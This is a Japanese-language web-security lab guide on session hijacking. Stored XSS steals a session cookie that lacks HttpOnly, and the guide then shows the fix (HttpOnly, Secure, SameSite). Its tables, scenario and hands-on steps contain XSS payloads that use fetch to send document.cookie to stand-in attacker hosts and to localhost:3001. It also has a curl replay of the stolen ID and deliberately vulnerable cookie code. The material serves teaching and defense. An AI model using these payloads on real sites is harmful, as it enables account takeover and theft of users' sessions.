


# Session Hijacking — XSSで盗んだセッションIDで他人になりすます

> XSS脆弱性を利用してCookieからセッションIDを盗み出し、そのIDを使って被害者のアカウントに不正アクセスする攻撃を学びます。

---

## 対象ラボ

| 項目 | 内容 |
|------|------|
| **概要** | セッション Cookie に `HttpOnly` 属性がなく、XSS 経由で `document.cookie` からセッション ID を窃取し、他ユーザーになりすませる |
| **攻撃例** | `<script>fetch('http://attacker/?c='+document.cookie)</script>` を Stored XSS で投稿し、被害者のセッション ID を外部に送信する |
| **技術スタック** | Hono API + Cookie + XSS ラボと連携 |
| **難易度** | ★★☆ 中級 |
| **前提知識** | XSS（Stored XSS）の仕組み、Cookie によるセッション管理、`HttpOnly` 属性の役割 |

---

## この脆弱性を理解するための前提

### Cookie とセッション管理の仕組み

Web アプリケーションは、ログイン後のユーザー識別にセッション Cookie を使用する。ブラウザはリクエストのたびに Cookie を自動送信し、サーバーはその中のセッション ID でユーザーを特定する。

```
ログイン成功時:
Set-Cookie: session_id=abc123; Path=/

以降のリクエスト:
GET /api/profile
Cookie: session_id=abc123
→ 200 OK: { "username": "alice" }
```

ここで重要なのは、セッション ID を知っている者は誰でも「そのユーザー」としてサーバーにアクセスできるという点。セッション ID は事実上の **アクセストークン** であり、パスワードと同等の価値を持つ。

### どこに脆弱性が生まれるのか

問題は2つの条件が重なったときに発生する:

1. **XSS 脆弱性が存在する** — 攻撃者が被害者のブラウザ上で任意の JavaScript を実行できる
2. **セッション Cookie に `HttpOnly` 属性がない** — JavaScript から `document.cookie` で Cookie にアクセスできる

```typescript
// ⚠️ この部分が問題 — HttpOnly が設定されていない
setCookie(c, 'session_id', sessionId, {
  path: '/',
  // httpOnly: true が設定されていない
  // → JavaScript の document.cookie からアクセス可能
});
```

`HttpOnly` 属性がない Cookie は、ページ上で実行されるすべての JavaScript から読み取れる。XSS 脆弱性と組み合わさると、攻撃者のスクリプトがセッション ID を外部に送信できてしまう。

```javascript
// ⚠️ XSS で注入されたスクリプト — HttpOnly がないためCookieを読み取れる
document.cookie  // → "session_id=abc123"
```

---

## 攻撃の仕組み



### 攻撃のシナリオ

1. **攻撃者** が Stored XSS 脆弱性を利用して、悪意のあるスクリプトを投稿する

   掲示板やコメント欄などの Stored XSS 脆弱性を利用して、Cookie を外部に送信するスクリプトを投稿する。投稿はデータベースに保存され、他のユーザーがページを閲覧するたびにスクリプトが実行される。

   ```html
   <!-- 攻撃者が投稿するコメント -->
   <script>
     // 被害者のCookieを攻撃者のサーバーに送信
     fetch('http://attacker.com/steal?cookie=' + encodeURIComponent(document.cookie));
   </script>
   ```

2. **被害者** がそのページを閲覧する

   被害者がコメント一覧ページを開くと、攻撃者のスクリプトが被害者のブラウザ上で実行される。スクリプトは `document.cookie` を読み取り、セッション ID を含む全 Cookie を攻撃者のサーバーに送信する。

   ```
   GET http://attacker.com/steal?cookie=session_id%3Dabc123
   ```

   この時点で被害者は何も異変に気づかない。ページは正常に表示され、Cookie の窃取はバックグラウンドで行われる。

3. **攻撃者** が窃取したセッション ID を使って被害者になりすます

   攻撃者は受け取ったセッション ID を自分のブラウザの Cookie にセットし、被害者としてサイトにアクセスする。サーバーからは正規のリクエストと区別できない。

   ```bash
   # 攻撃者が盗んだセッションIDでアクセス
   curl http://target.com/api/profile \
     -b "session_id=abc123"
   # → { "username": "alice", "email": "alice@example.com" }
   ```

### なぜ成功するのか

| 条件 | 説明 |
|------|------|
| XSS 脆弱性の存在 | ユーザー入力がサニタイズされずに HTML に出力されるため、攻撃者が任意の JavaScript を実行できる |
| `HttpOnly` 属性の欠如 | セッション Cookie に `HttpOnly` が設定されていないため、`document.cookie` で JavaScript からアクセスできる |
| セッション ID の固定性 | セッション ID が窃取後も有効なまま維持されるため、攻撃者が何度でも使用できる |

### 被害の範囲

- **機密性**: 攻撃者が被害者のアカウントとして個人情報、メッセージ、取引履歴にフルアクセスできる。Stored XSS の場合、ページを閲覧した全ユーザーのセッション ID が一括窃取される可能性がある
- **完全性**: 被害者のアカウントでデータの改ざん、投稿の編集・削除、設定変更が可能。攻撃者が被害者を装って不正な投稿を行うこともできる
- **可用性**: 攻撃者がパスワードやメールアドレスを変更すると、被害者はアカウントを完全に失う

---

## 対策



### 根本原因

2つの問題が組み合わさっている:
1. **XSS 脆弱性**: ユーザー入力をサニタイズせずに HTML に出力することで、攻撃者が任意のスクリプトを実行できる
2. **`HttpOnly` 属性の欠如**: Cookie が JavaScript からアクセス可能であるため、XSS で Cookie を窃取できる

XSS を根本的に防ぐのが最優先だが、`HttpOnly` 属性の設定は **多層防御** として不可欠。万が一 XSS が発生しても、Cookie の窃取だけは防げる。

### 安全な実装

セッション Cookie に `HttpOnly` 属性を設定すると、JavaScript の `document.cookie` API からそのCookie にアクセスできなくなる。ブラウザが HTTP リクエスト時に Cookie を自動送信する動作は変わらないため、正常なセッション管理には一切影響しない。

```typescript
// ✅ HttpOnly 属性を設定 — JavaScript からCookieにアクセスできなくなる
setCookie(c, 'session_id', sessionId, {
  path: '/',
  httpOnly: true,   // JavaScript の document.cookie からアクセス不可
  secure: true,     // HTTPS 通信時のみ送信
  sameSite: 'Strict', // クロスサイトリクエストで送信しない
});
```

`HttpOnly` が設定されている場合、XSS が存在しても `document.cookie` は空文字列を返す（正確には `HttpOnly` の Cookie が結果から除外される）。攻撃者のスクリプトはセッション ID を取得できない。

#### 脆弱 vs 安全: コード比較

```diff
  setCookie(c, 'session_id', sessionId, {
    path: '/',
-   // HttpOnly なし → document.cookie でアクセス可能
+   httpOnly: true,    // JavaScript からアクセス不可
+   secure: true,      // HTTPS のみ
+   sameSite: 'Strict', // クロスサイト送信なし
  });
```

脆弱なコードでは Cookie に保護属性がなく、ページ上のどんなスクリプトからでも `document.cookie` で読み取れる。安全なコードでは `HttpOnly` により JavaScript からの読み取りがブラウザレベルで遮断されるため、XSS が存在してもセッション ID の窃取はできない。

### その他の防御策

| 対策 | 種類 | 説明 |
|------|------|------|
| XSS 対策（出力エスケープ） | 根本対策 | ユーザー入力を HTML に出力する際にエスケープし、スクリプトの注入を防ぐ。セッションハイジャックの起点である XSS そのものを防ぐ最も重要な対策 |
| `HttpOnly` Cookie 属性 | 根本対策 | JavaScript からの Cookie アクセスを遮断する。XSS が発生しても Cookie の窃取を防げる |
| `Secure` Cookie 属性 | 多層防御 | HTTPS 通信時のみ Cookie を送信する。ネットワーク傍受による Cookie 漏洩を防ぐ |
| `SameSite` Cookie 属性 | 多層防御 | クロスサイトリクエストでの Cookie 送信を制限する |
| CSP (Content Security Policy) | 多層防御 | `script-src` ディレクティブでインラインスクリプトや外部スクリプトの実行を制限し、XSS の影響を軽減する |
| セッション ID のローテーション | 検知 | 定期的にセッション ID を更新し、窃取された ID の有効期間を短くする |

---

## ハンズオン手順

### Step 1: 脆弱バージョンで攻撃を体験

**ゴール**: XSS を利用してセッション Cookie を窃取し、他のユーザーになりすましてアクセスできることを確認する

1. 開発サーバーを起動する

   ```bash
   cd backend && pnpm dev
   ```

2. テストユーザー（alice）でログインし、セッション Cookie を確認する

   - ブラウザの DevTools → Application → Cookies を開く
   - `session_id` Cookie に `HttpOnly` 属性がない（チェックが空欄）ことを確認

3. XSS ペイロードを投稿する（Stored XSS を利用）

   ```bash
   # Cookie 窃取スクリプトを含むコメントを投稿
   curl -X POST http://localhost:3000/api/labs/session-hijacking/vulnerable/comment \
     -H "Content-Type: application/json" \
     -b "session_id=alice-session" \
     -d '{"content": "<script>fetch(\"http://localhost:3001/steal?c=\"+document.cookie)</script>"}'
   ```

4. 別のユーザー（被害者）としてコメント一覧を閲覧する

   - DevTools の Network タブで `http://localhost:3001/steal?c=session_id%3D...` へのリクエストを確認する
   - セッション ID が外部に送信されていることを確認

5. 窃取したセッション ID で被害者になりすます

   ```bash
   # 盗んだセッションIDでプロフィールにアクセス
   curl http://localhost:3000/api/labs/session-hijacking/vulnerable/profile \
     -b "session_id=<窃取したセッションID>"
   ```

6. 結果を確認する

   - 被害者のプロフィール情報が返される
   - **この結果が意味すること**: セッション ID は事実上のパスワードであり、`HttpOnly` なしの Cookie は XSS でいつでも盗める

### Step 2: 安全バージョンで防御を確認

**ゴール**: `HttpOnly` 属性により、同じ XSS 攻撃でも Cookie が窃取できないことを確認する

1. 安全なエンドポイントでログインし、Cookie を確認する

   - DevTools → Application → Cookies で `session_id` Cookie に `HttpOnly` のチェックが付いていることを確認

2. 同じ XSS ペイロードを安全なエンドポイントで試す

   ```bash
   curl -X POST http://localhost:3000/api/labs/session-hijacking/secure/comment \
     -H "Content-Type: application/json" \
     -b "session_id=alice-session" \
     -d '{"content": "<script>fetch(\"http://localhost:3001/steal?c=\"+document.cookie)</script>"}'
   ```

3. 結果を確認する

   - XSS スクリプトが実行されても、`document.cookie` にセッション ID が含まれない
   - 攻撃者のサーバーに送信される Cookie 値が空または `HttpOnly` Cookie を含まない
   - DevTools Console で `document.cookie` を実行すると、`session_id` が表示されないことを確認

4. コードの差分を確認する

   - `backend/src/labs/step04-session/session-hijacking.ts` の脆弱版と安全版を比較
   - **どの行が違いを生んでいるか** に注目: `setCookie` の `httpOnly: true` オプション

### 確認ポイント

以下を自分の言葉で説明できれば、このラボは完了です:

- [ ] セッションハイジャックが成立するための条件は何か（XSS + HttpOnly なしの2つ）
- [ ] `document.cookie` で読み取れる Cookie と読み取れない Cookie の違いは何か
- [ ] `HttpOnly` 属性は「なぜ」セッション ID の窃取を防げるのか（ブラウザ内部でどう処理されるか）
- [ ] `HttpOnly` だけでは不十分な理由と、XSS そのものを防ぐことが最重要である理由

---

## 実装メモ

| 項目 | パス |
|------|------|
| 脆弱エンドポイント | `/api/labs/session-hijacking/vulnerable/comment`, `/api/labs/session-hijacking/vulnerable/profile` |
| 安全エンドポイント | `/api/labs/session-hijacking/secure/comment`, `/api/labs/session-hijacking/secure/profile` |
| バックエンド | `backend/src/labs/step04-session/session-hijacking.ts` |
| フロントエンド | `frontend/src/features/step04-session/pages/SessionHijacking.tsx` |
| DB | `docker/db/init.sql` の `users`, `comments` テーブルを使用 |

- 脆弱版では `setCookie` に `httpOnly` オプションを指定せず、XSS によるCookie 窃取を可能にする
- 安全版では `httpOnly: true`, `secure: true`, `sameSite: 'Strict'` を全て設定する
- XSS ラボ（Step 2）の Stored XSS と連携させ、実際に Cookie が窃取される流れを体験させる
- 攻撃者用の簡易サーバー（`localhost:3001`）で窃取された Cookie を受け取る仕組みを用意する

---

## 現実世界での事例

| 年 | インシデント | 概要 |
|----|-------------|------|
| 2010 | Firesheep | Wi-Fi ネットワーク上の暗号化されていない Cookie を傍受するFirefox拡張機能が公開され、Facebook や Twitter などのセッションハイジャックが誰でも可能になった。HTTPS 普及のきっかけとなった |
| 2014 | eBay XSS | eBay の出品ページに存在した XSS 脆弱性を利用して、閲覧者のセッション Cookie を窃取し、アカウントを乗っ取る攻撃が報告された |

---

## 関連ラボ

| ラボ | 関連性 |
|------|--------|
| [XSS (Stored XSS)](../step02-injection/xss.md) | セッションハイジャックの起点となる XSS 脆弱性。XSS を防げばセッションハイジャックも防げる |
| [Cookie 操作](./cookie-manipulation.md) | `HttpOnly`、`Secure`、`SameSite` 属性の詳細。Cookie 属性の設定がセッションハイジャックの難易度を大きく左右する |
| [セッション固定](./session-fixation.md) | ハイジャックが「既存のセッション ID を盗む」のに対し、固定は「攻撃者の知っている ID を被害者に使わせる」。セッション乗っ取りの別のアプローチ |

---

## 参考資料

- [OWASP - Session Hijacking Attack](https://owasp.org/www-community/attacks/Session_hijacking_attack)
- [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)
- [CWE-1004: Sensitive Cookie Without 'HttpOnly' Flag](https://cwe.mitre.org/data/definitions/1004.html)
